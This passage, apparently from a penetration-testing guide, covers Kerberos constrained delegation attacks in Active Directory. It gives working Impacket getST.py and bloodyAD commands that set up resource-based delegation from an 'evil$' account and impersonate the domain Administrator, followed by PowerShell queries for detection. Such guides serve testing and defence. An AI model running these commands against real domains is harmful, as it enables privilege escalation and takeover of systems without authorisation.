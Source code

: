 #### Protocol Transition Bypass

**Scenario:** When protocol transition is disabled, attackers can use alternative methods to obtain forwardable tickets.

**Attack Methods:**
- **RBCD Attack:** Configure resource-based constrained delegation
- **Ticket Capture:** Wait for users to authenticate to the service
- **Self-RBCD:** Use computer account self-delegation (patched in 2022)

### Constrained Delegation Practical Attack Example

#### Step 1: Identify Constrained Delegation

```powershell
# Find computers with constrained delegation
Get-ADComputer -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation, msDS-AllowedToDelegateTo

# Find users with constrained delegation
Get-ADUser -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation, msDS-AllowedToDelegateTo
```

#### Step 2: With Protocol Transition

```bash
# Direct S4U2Self + S4U2Proxy attack
getST.py -spn "cifs/target.domain.local" -impersonate "Administrator" "domain/service:password"
```

#### Step 3: Without Protocol Transition (RBCD Approach)

```bash
# Step 1: Configure RBCD on the target service
bloodyAD --host 10.10.10.10 -u user -p password -d domain add rbcd -t target$ -f evil$

# Step 2: Perform S4U2Self + S4U2Proxy
getST.py -spn "cifs/target.domain.local" -impersonate "Administrator" "domain/evil$:password"

# Step 3: Use the ticket for S4U2Proxy
getST.py -spn "cifs/final-target.domain.local" -impersonate "Administrator" -additional-ticket "Administrator.ccache" "domain/target$:password"
```

### Constrained Delegation Detection

#### PowerShell Detection

```powershell
# Find all accounts with constrained delegation
$computers = Get-ADComputer -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation, msDS-AllowedToDelegateTo
$users = Get-ADUser -Filter {TrustedToAuthForDelegation -eq $true} -Properties TrustedToAuthForDelegation, msDS-AllowedToDelegateTo

Write-Host "Computers with Constrained Delegation:"
$computers | Select-Object Name, msDS-AllowedToDelegateTo

Write-Host "Users with Constrained Delegation:"
$users | Select-Object Name, msDS-AllowedToDelegateTo
```
